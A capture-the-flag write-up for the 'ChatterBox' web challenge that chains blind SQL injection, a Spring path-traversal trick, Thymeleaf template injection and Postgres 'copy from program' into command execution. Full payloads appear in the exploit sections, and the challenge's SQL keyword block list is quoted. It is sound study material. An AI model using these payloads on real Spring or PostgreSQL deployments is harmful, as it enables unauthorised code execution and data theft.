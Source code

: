 # ChatterBox Writeup

## tl;dr

Blind SQLi to get admin password -> `getResource()` bug to trigger ftp request -> Thymeleaf SSTI using `jdbc` to connect back to `postgres` -> `postgres` RCE (see `exploit.sh`, `sol.py`)

## Background
```
ChatterBox
Score: 194
Solves: 21
Web,difficulty:Normal

i wanna inject sth in my Box what should i do？

nc 47.89.225.36 9999
```

We get a Java server as a jar running on port `8080`, with a postgresql database in the same container. 3 endpoints, only 2 of which were used for the final exploit:

<details>
<summary><code>/login</code></summary>

```java
  @RequestMapping({"/login"})
  public String doLogin(HttpServletRequest request, Model model, HttpSession session) throws Exception {
    String username = request.getParameter("username");
    String password = request.getParameter("passwd");
    if (username != null && password != null) {
      if (!SQLCheck.checkBlackList(username) || !SQLCheck.checkBlackList(password)) {
        model.addAttribute("status", Integer.valueOf(500));
        model.addAttribute("message", "Ban!");
        return "error";
      } 
      String sql = "SELECT id,passwd FROM message_users WHERE username = '" + username + "'";
      if (SQLCheck.check(sql))
        try {
          List<String> pass = this.jdbcTemplate.query(sql, (RowMapper)new Object(this));
          if (!pass.isEmpty()) {
            String[] info = ((String)pass.get(0)).split("/");
            String dbPassword = info[1];
            if (dbPassword != null && dbPassword.equals(password)) {
              int userId = Integer.parseInt(info[0]);
              session.setAttribute("userId", Integer.valueOf(userId));
              return "redirect:/";
            } 
            model.addAttribute("status", Integer.valueOf(500));
            model.addAttribute("message", "Incorrect Username/Password);
          } else {
            model.addAttribute("status", Integer.valueOf(500));
            model.addAttribute("message", "Incorrect Username/Password);
          } 
          return "error";
        } catch (Exception var10) {
          model.addAttribute("status", Integer.valueOf(500));
          model.addAttribute("message", var10.toString());
          return "error";
        }  
      model.addAttribute("status", Integer.valueOf(500));
      model.addAttribute("message", "check error~");
      return "error";
    } 
    return "login";
  }
```
</details>

<details>
<summary><code>/notify</code></summary>

```java
  @GetMapping({"/notify"})
  public String notify(@RequestParam String fname, HttpSession session) throws IOException {
    Integer userId = (Integer)session.getAttribute("userId");
    if (userId != null && userId.intValue() == 1) {
      if (fname.contains("../"))
        return "error"; 
      InputStream inputStream = this.applicationContext.getResource(this.templatePrefix + this.templatePrefix + fname).getInputStream();
      if (inputStream != null && safeCheck(inputStream)) {
        String result = getTemplateEngine().process(fname, (IContext)new Context());
        return result;
      } 
      return "error";
    } 
    return "redirect:login";
  }
  
  public boolean safeCheck(InputStream stream) {
    try {
      String templateContent = new String(stream.readAllBytes());
      return (!templateContent.contains("<") && !templateContent.contains(">") && !templateContent.contains("org.apache") && !templateContent.contains("org.spring"));
    } catch (IOException var3) {
      return false;
    } 
  }
  
  private SpringTemplateEngine getTemplateEngine() {
    SpringResourceTemplateResolver resolver = new SpringResourceTemplateResolver();
    resolver.setApplicationContext(this.applicationContext);
    resolver.setTemplateMode(TemplateMode.HTML);
    resolver.setCharacterEncoding(StandardCharsets.UTF_8.name());
    resolver.setPrefix(this.templatePrefix);
    resolver.setSuffix(this.templateSuffix);
    SpringTemplateEngine templateEngine = new SpringTemplateEngine();
    templateEngine.setTemplateResolver((ITemplateResolver)resolver);
    return templateEngine;
  }
```
</details>

We run the docker container, decompile the jar with `jd-gui`, and get to work.

## Exploit

### Logging in

At first glance, we can tell that there is a SQL injection vulnerability in `/login`:
```java
String sql = "SELECT id,passwd FROM message_users WHERE username = '" + username + "'";
```
`username`, which we control, is unfortunately behind a blacklist, the size of which is staggering:

<details>
<summary><code>checkBlackList(String sql)</code></summary>

```java
  public static boolean checkBlackList(String sql) {
    String temp;
    sql = sql.toUpperCase();
    Iterator<String> blackList = getBlackList().stream().iterator();
    do {
      if (!blackList.hasNext())
        return true; 
      temp = blackList.next();
    } while (!sql.contains(temp));
    return false;
  }
  
  private static List<String> getBlackList() {
    List<String> black = new ArrayList<>();
    black.add("SELECT");
    black.add("UNION");
    black.add("INSERT");
    black.add("ALTER");
    black.add("SLEEP");
    black.add("DELETE");
    black.add("--");
    black.add(";");
    black.add("#");
    black.add("&");
    black.add("/*");
    black.add("OR");
    black.add("EXEC");
    black.add("CREATE");
    black.add("AND");
    black.add("DROP");
    black.add("DO");
    black.add("COPY");
    black.add("SET");
    black.add("VACUUM");
    black.add("SHOW");
    black.add("CURSOR");
    black.add("TRUNCATE");
    black.add("CAST");
    black.add("BEGIN");
    black.add("PERFORM");
    black.add("END");
    black.add("CASE");
    black.add("WHEN");
    black.add("ALL");
    black.add("TABLE");
    black.add("UPDATE");
    black.add("TRIGGER");
    black.add("FUNCTION");
    black.add("PROCEDURE");
    black.add("DECLARE");
    black.add("RETURNING");
    black.add("TABLESPACE");
    black.add("VIEW");
    black.add("SEQUENCE");
    black.add("INDEX");
    black.add("LOCK");
    black.add("GRANT");
    black.add("REVOKE");
    black.add("SAVEPOINT");
    black.add("ROLLBACK");
    black.add("IMPORT");
    black.add("COMMIT");
    black.add("PREPARE");
    black.add("EXECUTE");
    black.add("EXPLAIN");
    black.add("ANALYZE");
    black.add("DATABASE");
    black.add("PASSWORD");
    black.add("CONNECT");
    black.add("DISCONNECT");
    black.add("PG_SLEEP");
    black.add("MERGE");
    black.add("USING");
    black.add("LIMIT");
    black.add("OFFSET");
    black.add("RETURN");
    black.add("ESCAPE");
    black.add("LIKE");
    black.add("ILIKE");
    black.add("RLIKE");
    black.add("EXISTS");
    black.add("BETWEEN");
    black.add("IS");
    black.add("NULL");
    black.add("NOT");
    black.add("GROUP");
    black.add("BY");
    black.add("HAVING");
    black.add("ORDER");
    black.add("WINDOW");
    black.add("PARTITION");
    black.add("OVER");
    black.add("FOREIGN KEY");
    black.add("REFERENCE");
    black.add("RAISE");
    black.add("LISTEN");
    black.add("NOTIFY");
    black.add("LOAD");
    black.add("SECURITY");
    black.add("OWNER");
    black.add("RULE");
    black.add("CLUSTER");
    black.add("COMMENT");
    black.add("CONVERT");
    black.add("COPY");
    black.add("CHECKPOINT");
    black.add("REINDEX");
    black.add("RESET");
    black.add("LANGUAGE");
    black.add("PLPGSQL");
    black.add("PLPYTHON");
    black.add("SECDEF");
    black.add("NOCREATEDB");
    black.add("NOCREATEROLE");
    black.add("NOINHERIT");
    black.add("NOREPLICATION");
    black.add("BYPASSRLS");
    black.add("FILE");
    black.add("PG_");
    black.add("IMPORT");
    black.add("EXPORT");
    return black;
  }
```

</details>

This prevents us from appending an extra `a'; COPY (SELECT '') TO PROGRAM '/readflag';--` at the end of the query, which would have been an instant win. Instead, we found we can do string concatenations (`a' || 'b' || 'c`), and using this, we can call functions (`a' || somefunc('b') || 'c`).

`doLogin()` does not reveal anything to the client depending on if the query returned something or nothing. It _does_ throw a 500 when the query encounters an error, so our goal at this point became triggering an error based on some character in `passwd`. We essentially just did a `select proname from pg_proc;`, taking a look at every function available to us, and seeing which ones did not run afoul of the blacklist. This got us:

```
1/int4(textregexeq(substring(passwd,0,1),'x'))
```
- `substring(passwd,0,1)` gets a single character from passwd at pos 0
- `textregexex(ourchar, 'x')` returns true or false if `ourchar=='x'`
- `int4(cond)` coerces `true` to 1, `false` to 0
- `1/num` throws a division by 0 error if `false`, otherwise ok if `true`

So, we build a payload using this oracle, but we quickly realized that besides just the blacklist, the login procedure also ran our query through an AST-based filter at `SQLCheck.check(sql)`.

<details>
<summary><code>check(String sql)</code></summary>

```java
  public static boolean filter(String sql) {
    String whitePrefix;
    if (StringUtil.matches(sql, "^[a-zA-Z0-9_]*$"))
      return true; 
    if (sql.contains(" USER_DEFINE ") || (sql.startsWith("SELECT") && sql.contains("VIEW")))
      return true; 
    Iterator<String> whiteList = getWhitePrefix().stream().iterator();
    do {
      if (!whiteList.hasNext())
        return false; 
      whitePrefix = whiteList.next();
    } while (!sql.startsWith(whitePrefix));
    return true;
  }
  
  public static List<String> getWhitePrefix() {
    List<String> whiteList = new ArrayList<>();
    whiteList.add("delete from test where ");
    whiteList.add("update test set ");
    whiteList.add("select * from test");
    return whiteList;
  }
  
  public static List<String> getWhiteTable() {
    List<String> whiteTable = new ArrayList<>();
    whiteTable.add("USERS");
    whiteTable.add("MESSAGES");
    whiteTable.add("MESSAGE_USERS");
    return whiteTable;
  }
  
  public static Boolean filterTableName(SQLExprTableSource sqlExprTableSource) {
    String tableName = ((SQLIdentifierExpr)sqlExprTableSource.getExpr()).getName();
    return Boolean.valueOf(!!getWhiteTable().contains(tableName));
  }
  
  private static boolean checkValid(String sql) {
    try {
      return SQLParser.parse(sql);
    } catch (SQLException var9) {
      try {
        SQLStatement statement;
        List<SQLStatement> sqlStatements = SQLUtils.parseStatements(sql, JdbcConstants.POSTGRESQL);
        if (sqlStatements != null && sqlStatements.size() > 1)
          return false; 
        Iterator<SQLStatement> sqlIterator = sqlStatements.stream().iterator();
        do {
          if (!sqlIterator.hasNext())
            return false; 
          statement = sqlIterator.next();
        } while (!(statement instanceof com.alibaba.druid.sql.dialect.postgresql.ast.stmt.PGSelectStatement));
        SQLSelect sqlSelect = ((SQLSelectStatement)statement).getSelect();
        SQLSelectQuery sqlSelectQuery = sqlSelect.getQuery();
        if (sqlSelectQuery instanceof com.alibaba.druid.sql.ast.statement.SQLUnionQuery)
          return false; 
        SQLSelectQueryBlock sqlSelectQueryBlock = (SQLSelectQueryBlock)sqlSelectQuery;
        if (!filtetFields(sqlSelectQueryBlock.getSelectList()))
          return false; 
        if (!filterTableName((SQLExprTableSource)sqlSelectQueryBlock.getFrom()).booleanValue())
          return false; 
        if (!filterWhere(sqlSelectQueryBlock.getWhere()))
          return false; 
        return true;
      } catch (Exception var8) {
        if (filter(sql))
          return true; 
        throw new SQLException("SQL Parsing Exception~");
      } 
    } 
  }
  
  private static boolean filtetFields(List<SQLSelectItem> selectList) {
    for (int i = 0; i < selectList.size(); i++) {
      Object element = selectList.get(i);
      if (element instanceof SQLSelectItem) {
        SQLExpr expr = ((SQLSelectItem)element).getExpr();
        if (expr instanceof com.alibaba.druid.sql.ast.expr.SQLQueryExpr)
          return false; 
      } 
    } 
    return true;
  }
  
  private static boolean filterWhere(SQLExpr where) {
    SQLExpr left = ((SQLBinaryOpExpr)where).getLeft();
    SQLExpr right = ((SQLBinaryOpExpr)where).getRight();
    if (left instanceof SQLBinaryOpExpr && !filterWhere(left))
      return false; 
    if (right instanceof SQLBinaryOpExpr && !filterWhere(right))
      return false; 
    return (allowExpr.contains(left.getClass()) && allowExpr.contains(right.getClass()));
  }
  
  public static boolean check(String sql) {
    sql = sql.toUpperCase();
    return checkValid(sql);
  }
  
  static {
    allowExpr.add(SQLTimeExpr.class);
    allowExpr.add(SQLNullExpr.class);
    allowExpr.add(SQLNumericLiteralExpr.class);
    allowExpr.add(SQLNotExpr.class);
    allowExpr.add(SQLIntegerExpr.class);
    allowExpr.add(SQLNumberExpr.class);
    allowExpr.add(SQLDateExpr.class);
    allowExpr.add(SQLDoubleExpr.class);
    allowExpr.add(SQLCharExpr.class);
    allowExpr.add(SQLBooleanExpr.class);
    allowExpr.add(SQLAllColumnExpr.class);
    allowExpr.add(SQLDateTimeExpr.class);
    allowExpr.add(SQLIdentifierExpr.class);
  }
```

</details>

<details>
<summary><code>SQLParser</code></summary>

```java
public class SQLParser {
  private static Class[] restrictExprCls = new Class[] { LongValue.class, StringValue.class, NullValue.class, TimeValue.class, TimestampValue.class, DateValue.class, DoubleValue.class, Column.class };
  
  public static boolean parse(String sql) {
    try {
      CCJSqlParserManager parserManager = new CCJSqlParserManager();
      Statement statement = parserManager.parse(new StringReader(sql));
      if (statement instanceof Select)
        return processSelect((Select)statement); 
      return (statement instanceof Insert) ? processInsert((Insert)statement) : false;
    } catch (Exception var3) {
      throw new SQLException("SQL error");
    } 
  }
  
  private static boolean processInsert(Insert statement) {
    return true;
  }
  
  private static boolean restrictExpr(BinaryExpression expression) {
    Expression left_expr = expression.getLeftExpression();
    Expression right_expr = expression.getRightExpression();
    if (left_expr instanceof BinaryExpression)
      return restrictExpr((BinaryExpression)left_expr); 
    if (right_expr instanceof BinaryExpression)
      return restrictExpr((BinaryExpression)right_expr); 
    List<Class<?>> arrays = Arrays.asList((Class<?>[][])restrictExprCls);
    return (arrays.contains(left_expr.getClass()) && arrays.contains(right_expr.getClass()));
  }
  
  private static boolean processSelect(Select statement) {
    SelectBody selectBody = statement.getSelectBody();
    if (selectBody instanceof PlainSelect) {
      PlainSelect plainSelect = (PlainSelect)selectBody;
      FromItem fromItem = plainSelect.getFromItem();
      if (fromItem instanceof Table) {
        String tablename = ((Table)fromItem).getName();
        List<String> whiteTable = SQLCheck.getWhiteTable();
        if (!whiteTable.contains(tablename))
          return false; 
        BinaryExpression expression = (BinaryExpression)plainSelect.getWhere();
        if (!restrictExpr(expression))
          return false; 
        return true;
      } 
    } 
    return false;
  }
}
```

</details>

Oddly, they run our SQL query through [JSql](https://jsqlparser.sourceforge.net/), and if it throws an exception, it uses another SQL parser (`druid`). Either filter is quite strict, not letting any functions through, and as far as we saw, did not contain any logic bugs, but the aforementioned `JSql` package has not been updated since 2013. We also found [this](https://sourceforge.net/p/jsqlparser/discussion/360150/thread/0e9d493cbd/?limit=25#28d8) discussion post about how `JSql` would drop rows or something, so we thought to try padding the query with additional string concats (`a' || 'b' || 'c' || 'd' || ... || <error_cond_exploit> || 'z`) and maybe it would drop a few AST nodes? Lo and behold, _it just worked_.

So, with that, we have a working oracle, which lets us exfiltrate the admin password character by character, after which we get to log in.

### Finding a way to trigger SSTI

We now get to access `/notify`. To recap, `notify()` takes our provided `fname`, prepends the prefix `file:///non_exists/` to it, grabs whatever is at this resource location (`this.applicationContext.getResource(path)`), and returns it, which `Spring` then resolves to a view (i.e., `index` resolves to `index.html`, `redirect:/login` resolves to a redirect header with location `/login`). It also strips any `../` from `fname`, so no easy path traversal.

Well, we grab the `pom.xml` from the decompiled jar, generate a maven project from it, copy `applicationContext.getResource(path)` and some surrounding code to make it execute, and start stepping through what `getResource(path)` actually does:

<details>
<summary><code>ChatterBoxApplication.java</code> (our test rig)</summary>

```java
package com.classes.chatterbox;

import java.io.InputStream;
import java.nio.charset.StandardCharsets;

import org.springframework.context.ApplicationContext;
import org.springframework.context.annotation.AnnotationConfigApplicationContext;
import org.thymeleaf.context.Context;
import org.thymeleaf.context.IContext;
import org.thymeleaf.spring6.SpringTemplateEngine;
import org.thymeleaf.spring6.templateresolver.SpringResourceTemplateResolver;
import org.thymeleaf.templatemode.TemplateMode;
import org.thymeleaf.templateresolver.ITemplateResolver;

// @SpringBootApplication
public class ChatterBoxApplication {
  public static void main(String[] args) {
    // String basePayload = "'baka' || ";
    // String payload = "ayo' || ";
    // for (int i = 0; i < 200; i++) {
    //   payload += basePayload;
    // }
    // // payload += "length(int4(substring(passwd,0,2)='a')) || ";
    // payload += "1/int4(textregexeq(substring('abcd',0,2),'a')) ||";
    // payload += "'ayo";
    // String sql = "SELECT id,passwd FROM message_users WHERE username = '" + payload + "'";
    // boolean res = SQLCheck.check(sql);
    // System.out.println(res);
    try {
      ApplicationContext ctx = new AnnotationConfigApplicationContext();
      String fname = "..\\payload?.txt";
      String templatePrefix = "file:./non_exists/";
      String templateSuffix = ".html";
      if (fname.contains("../")) System.out.println("baka");
      InputStream inputStream = ctx.getResource(templatePrefix + fname).getInputStream();
      if (inputStream != null && safeCheck(inputStream)) {
        // setting up the template engine lol
        SpringResourceTemplateResolver resolver = new SpringResourceTemplateResolver();
        resolver.setApplicationContext(ctx);
        resolver.setTemplateMode(TemplateMode.HTML);
        resolver.setCharacterEncoding(StandardCharsets.UTF_8.name());
        resolver.setPrefix(templatePrefix);
        resolver.setSuffix(templateSuffix);
        SpringTemplateEngine templateEngine = new SpringTemplateEngine();
        templateEngine.setTemplateResolver((ITemplateResolver)resolver);

        String result = templateEngine.process(fname, (IContext)new Context());
        System.out.println(result);
      } 
    } catch (Exception e) {
      e.printStackTrace();
    }
  } 

    static public boolean safeCheck(InputStream stream) {
    try {
      String templateContent = new String(stream.readAllBytes());
      return (!templateContent.contains("<") && !templateContent.contains(">") && !templateContent.contains("org.apache") && !templateContent.contains("org.spring"));
    } catch (Exception var3) {
      return false;
    } 
  }
}
```

(+ `SQLCheck.java`, `SQLParser.java`, `StringUtils.java`)

</details>

```java
        try {
            // Try to parse the location as a URL...
            URL url = ResourceUtils.toURL(location);
            return (ResourceUtils.isFileURL(url) ? new FileUrlResource(url) : new UrlResource(url));
        }
```

```java
	public static URL toURL(String location) throws MalformedURLException {
		try {
			// Prefer URI construction with toURL conversion (as of 6.1)
			return toURI(StringUtils.cleanPath(location)).toURL();
		}
```

```java
	public static String cleanPath(String path) {
		if (!hasLength(path)) {
			return path;
		}

		String normalizedPath = replace(path, WINDOWS_FOLDER_SEPARATOR, FOLDER_SEPARATOR);
		String pathToUse = normalizedPath;
```

Aha, `replace(path, WINDOWS_FOLDER_SEPARATOR, FOLDER_SEPARATOR)`. This lets us smuggle `../` by using `..\\`, so we get path traversal. Furthermore, we can append a question mark at the end of `fname` (`..\\payload?`) at the end of the filename to have `toUrl()` parse any suffix appended to our location be ignored (it appends `.html`), so we can have any arbitrary file be read.

We still have to deal with `safeCheck()`, which won't let through any angle brackets (`<`, `>`) or `org.spring`, `org.apache`. Online examples for thymeleaf templates that look like HTML all include angle brackets (`<p th:with="${sometemplatestuff}">`), and the template engine's default mode is explicitly set to `TemplateMode.HTML`.

It's a bunch of some more stepping through `getTemplateEngine().process(fname, ...);`, but the gist is that Thymeleaf will make a guess based on the file's file extension, which it gets by a simple `templateName.substring(lastIndexOf('.'))`. So, we append a `.txt` at the end of `fname` to have Thymeleaf interpret templates in TEXT mode (`[# th:with="a=${templatestuff}]`), which doesn't run afoul of the `safeCheck` filter.

```java
    public static TemplateMode computeTemplateModeForTemplateName(final String templateName) {

        final String fileExtension = computeFileExtensionFromTemplateName(templateName);
        if (fileExtension == null) {
            return null;
        }

        final String mimeType = MIME_TYPE_BY_FILE_EXTENSION.get(fileExtension);
        if (mimeType == null) {
            return null;
        }

        return TEMPLATE_MODE_BY_MIME_TYPE.get(mimeType);

    }

    private static String computeFileExtensionFromTemplateName(final String templateName) {

        if (templateName == null || templateName.trim().length() == 0) {
            return null;
        }

        final int pointPos = templateName.lastIndexOf('.');
        if (pointPos < 0) {
            // No extension, so nothing to use for resolution
            return null;
        }

        return templateName.substring(pointPos).toLowerCase(Locale.US).trim();

    }
```

Last remaining roadblock: how to get a file on the docker container, that we can then trigger SSTI on. We ended up wasting a lot of time here before realizing that, if you add in enough path traversals in `fname`, it will end up making an `ftp` connection to the first segment in the path, at port `21`. So, spin up an ftp server on a remote box, host the payload there, and we can trigger SSTI.

<details>
<summary>Other ways to trigger SSTI that we tried</summary>

- `/var/lib/postgresql/13/main/pg_wal`: A transaction log which contained the results of SQL insertions in the `/post_message` route, but didn't work because the file was too large.
- `/var/lib/postgresql/13/main/base/13443/16392`: An on-disk file which postgres would write our templates to after 5~ish minutes if we included them in a SQL insert, which worked on local but we couldn't get working on remote (instance kept closing lol) before the orgs patched the chal to have the user `java` run the jar, as opposed to `root`. This meant that we could no longer access files belonging to the user `postgres`.

</details>

### Using SSTI to get RCE

So, we have SSTI, but as it turns out, Thymeleaf implements some sort of blacklist on classes which it deems dangerous (as can be seen from how they patched [this](https://nvd.nist.gov/vuln/detail/CVE-2023-38286)). Furthermore, `safeCheck` earlier also bans `org.spring` and `org.apache` in our payload, so we have to make do with the remaining gadgets in our classpath.

We ended up going with reconnecting to `postgres` to trigger RCE there instead. Per [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce-to-program), we can trigger RCE, injecting command output into a table of our choice, comma delineated and padded with extra input to match the schema of `messages`.

Query: 
```sql
'copy messages from program ''echo -n 6942069,1, ; echo -n `/readflag` ; echo ,2024-01-01'' csv;'
```

SSTI Payload:
```
redirect:/?exfil=[# th:with="a=${new org.postgresql.Driver().connect('jdbc:postgresql://127.0.0.1:5432/postgres?user=postgres&password=postgres', null).createStatement().executeUpdate('copy messages from program ''echo -n 6942069,1, ; echo -n `/readflag` ; echo ,2024-01-01'' csv;')}"][/]
```

And with this, we've injected flag into the `messages` table, which we can access at `/`.